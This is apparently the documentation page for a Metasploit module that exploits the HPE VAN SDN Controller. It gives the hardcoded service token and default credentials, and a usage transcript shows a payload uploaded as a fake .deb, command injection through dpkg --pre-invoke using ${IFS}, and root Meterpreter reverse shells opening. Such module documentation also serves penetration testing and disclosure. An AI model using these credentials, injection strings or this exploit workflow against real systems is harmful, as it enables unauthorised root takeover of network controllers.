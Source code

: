 ## Intro

This module exploits a hardcoded service token or default credentials in
HPE VAN SDN Controller <= 2.7.18.0503 to execute a payload as root.

A root command injection was discovered in the uninstall action's name
parameter, obviating the need to use sudo for privilege escalation.

If the service token option `TOKEN` is blank, `USERNAME` and `PASSWORD`
will be used for authentication. An additional login request will be
sent.

## Setup

Follow <http://h22208.www2.hpe.com/eginfolib/networking/docs/sdn/sdnc2_6/5998-8473install/content/s_download_sw.html>.

Tested on 2.7.18.0503.

## Options

**TOKEN**

Set this to the service token. Defaults to `AuroraSdnToken37`.

**USERNAME**

Set this to the service username. Defaults to `sdn`.

**PASSWORD**

Set this to the service password. Defaults to `skyline`.

## Usage

```
msf5 > use exploit/linux/http/hp_van_sdn_token
msf5 exploit(linux/http/hp_van_sdn_token) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf5 exploit(linux/http/hp_van_sdn_token) > set target Linux Dropper
target => Linux Dropper
msf5 exploit(linux/http/hp_van_sdn_token) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/hp_van_sdn_token) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(linux/http/hp_van_sdn_token) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with service token AuroraSdnToken37
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:34468) at 2018-07-03 18:23:08 -0500
[+] Deleted /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.102
OS           : Debian 8 (Linux 4.4.0-2-amd64-hlinux)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
Background session 1? [y/N]
msf5 exploit(linux/http/hp_van_sdn_token) > set token ""
token =>
msf5 exploit(linux/http/hp_van_sdn_token) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with creds sdn:skyline
[+] Logged in with auth token 26d7b53a73a9455eae63c346321bfe31
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:34474) at 2018-07-03 18:24:47 -0500
[+] Deleted /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l

meterpreter >
```
